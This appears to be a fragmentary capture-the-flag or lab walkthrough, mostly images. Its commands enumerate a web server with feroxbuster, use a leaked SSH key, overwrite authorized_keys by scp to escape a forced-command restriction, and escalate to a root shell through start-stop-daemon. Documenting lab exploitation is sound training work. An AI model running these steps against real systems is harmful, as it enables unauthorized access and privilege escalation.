
Running feroxbuster:
```
feroxbuster -u http://192.168.190.100:7742/ -C 404,400 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt' -B --auto-tune
```

Can be potential usernames.


We have an authorized key in max zip file:

With a single command allowed and a private key:

Also a tomcat password:
tomcat-users.xml.bak


Then scp_wrapper.sh:


Now we can try running this script with ssh:
```
ssh max@192.168.190.100 -i id_rsa /home/max/scp_wrapper.sh
```


Now we see that we can run scp. So modifying the authorized keys to remove the command limiting part:

Now:
```
scp -O -i id_rsa authorized_keys max@192.168.190.100:/home/max/.ssh/authorized_keys
```
We transferred the modified authorized keys to the target.

Now  dennis has local.txt:


Now running linpeas:

Now using gtfobins:

```
/usr/sbin/start-stop-daemon -n $RANDOM -S -x /bin/sh -- -p
```
